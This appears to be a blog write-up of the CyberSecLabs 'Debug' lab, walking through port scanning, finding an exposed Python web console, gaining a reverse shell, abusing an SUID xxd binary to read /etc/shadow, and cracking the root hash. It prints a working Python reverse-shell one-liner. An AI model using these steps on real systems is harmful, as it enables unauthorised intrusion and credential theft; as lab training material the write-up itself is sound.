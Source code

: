 ```yaml
---
layout: page
title: Debug - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/debug.html
---
```


# Debug - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.3`

![image](https://user-images.githubusercontent.com/50459517/109021751-cb156300-7680-11eb-90a4-873c885cfa6f.png)

Looks like we only have 2 ports open, lets check out the web site on port 80 first.

![image](https://user-images.githubusercontent.com/50459517/109021814-d8cae880-7680-11eb-9c6f-08bb45af8d35.png)

Seems like we have just a basic web site here, lets enumerate for directories with **dirsearch**

![image](https://user-images.githubusercontent.com/50459517/109021881-e84a3180-7680-11eb-8f33-18056eb700fb.png)

A couple of these such as /contact and /blog can be seen from the main page, however /console looks interesting.  Lets go there and see what we got.

![image](https://user-images.githubusercontent.com/50459517/109021930-f5672080-7680-11eb-8aa9-371eb8d6d09c.png)

Looks like we have an interactive console on the website that we can execute python code on.  I tried a simple **print("hello world")** which worked successfully.  I then executed the following to test and see if we was executing code straight from the server and make sure this wasn't some kind of rabbit hole.

![image](https://user-images.githubusercontent.com/50459517/109021975-0021b580-7681-11eb-875f-7c211ffc4659.png)

This looks good.  Since we are executing python code from the server, we can execute a python reverse shell one liner like the following to get a reverse shell..

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

If we start a netcat listener on out machine and execute this, we get a shell as the user **megan**

![image](https://user-images.githubusercontent.com/50459517/109022222-3eb77000-7681-11eb-957a-26b53cd72042.png)

Now lets copy **LinPEAS** to the machine and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022265-48d96e80-7681-11eb-8f49-b708062b16ea.png)

We see an interesting SUID binary that we may be able to abuse.  Lets look at **GTFOBins** and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022317-52fb6d00-7681-11eb-93aa-84098690185d.png)

Looks like we may be able to abuse xxd to read files we don't have permission too.  Lets see if we can read the contents of **/etc/shadow**

![image](https://user-images.githubusercontent.com/50459517/109022368-5ee72f00-7681-11eb-8cf7-fdb06499cf3d.png)

It worked!  Lets copy the root hash and run it through john to see if we can crack it.

![image](https://user-images.githubusercontent.com/50459517/109022423-6a3a5a80-7681-11eb-84a2-37ac87a760e0.png)

Looks like we have a password!  Now we can login and have full root access to the machine!

![image](https://user-images.githubusercontent.com/50459517/109022462-732b2c00-7681-11eb-95db-806ca283ee01.png)
